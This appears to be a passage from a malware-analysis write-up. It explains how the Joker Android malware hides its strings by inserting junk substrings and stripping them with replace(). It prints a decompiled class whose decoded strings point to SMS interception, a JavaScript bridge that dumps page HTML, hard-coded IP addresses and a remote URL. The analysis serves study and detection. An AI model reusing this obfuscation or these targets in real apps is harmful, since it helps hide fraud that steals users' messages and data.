 In this example, the technique of **Identifier Renaming** is also used.

Encoding can be found in the malware family *Joker*, the mechanism is based on writing the strings together with unnecessary strings, and use the string method **replace** for eliminating the unnecessary string:

```java
public class oGn1 {

    /* renamed from: oGn1  reason: collision with root package name */
    public static final String f22oGn1 = "htnus35batp".replace("nus35ba", "");
    public static final String azj9 = "Drinus35bazzt".replace("nus35ba", "");
    public static final String HpfJ = "dumnus35bamy0".replace("nus35ba", "");
    public static final String S1h4 = "wlanus35ban0".replace("nus35ba", "");
    public static final String nf66 = "MSnus35baG_FAnus35baILED".replace("nus35ba", "");
    public static final String Xq26 = "enablnus35baed_notificnus35baation_lisnus35bateners".replace("nus35ba", "");
    public static final String l2Xu = "X-Requnus35baested-With".replace("nus35ba", "");
    public static final String FG40 = "Refnus35baerer".replace("nus35ba", "");
    public static final String V0jg = "16nus35ba1.1nus35ba17.4nus35ba6.64".replace("nus35ba", "");
    public static final String FRSq = "4nus35ba7.2nus35ba41.1nus35ba06.26".replace("nus35ba", "");
    public static final String xHpK = "-nus35ba--".replace("nus35ba", "");
    public static final String SIVB = "JBrnus35baidge".replace("nus35ba", "");
    public static final String U9IE = "schenus35badule".replace("nus35ba", "");
    public static final String iCQS = "finnus35baish".replace("nus35ba", "");
    public static final String SDeU = "popMnus35basg".replace("nus35ba", "");
    public static final String usNF = "texnus35batTo".replace("nus35ba", "");
    public static final String bjI2 = "requnus35baest".replace("nus35ba", "");
    public static final String Npty = "prnus35baobe".replace("nus35ba", "");
    public static final String WZgh = "headnus35baers".replace("nus35ba", "");
    public static final String oh94 = "danus35bata".replace("nus35ba", "");
    public static final String xIlk = "unus35barl".replace("nus35ba", "");
    public static final String GheE = "mainFnus35barame".replace("nus35ba", "");
    public static final String oPHk = "bnus35ba64".replace("nus35ba", "");
    public static final String cDje = "UUURnus35baRRLLL".replace("nus35ba", "");
    public static final String JsIn = "dunus35bamp".replace("nus35ba", "");
    public static final String hNMU = "android.provnus35baider.Telnus35baephony.SMnus35baS_RECEIVED".replace("nus35ba", "");
    public static final String ZTaR = "pnus35badus".replace("nus35ba", "");
    public static final String Ffeg = oGn1("window." + SIVB + ".canus35ball('" + JsIn + "',document.documentnus35baElement.outerHTML);");
    public static final String fFLV = "httnus35bap://pornus35batal.bignus35bafunspnus35baace.com/wap/lonus35baad_imnus35baage".replace("nus35ba", "");

    static {
        "mobilnus35bae_data".replace("nus35ba", "");
        "POnus35baST::".replace("nus35ba", "");
        "jp.nanus35baver.line.andnus35baroid".replace("nus35ba", "");
    }

    public static String oGn1(String str) {
        return str.replace("nus35ba", "");
    }
}
```
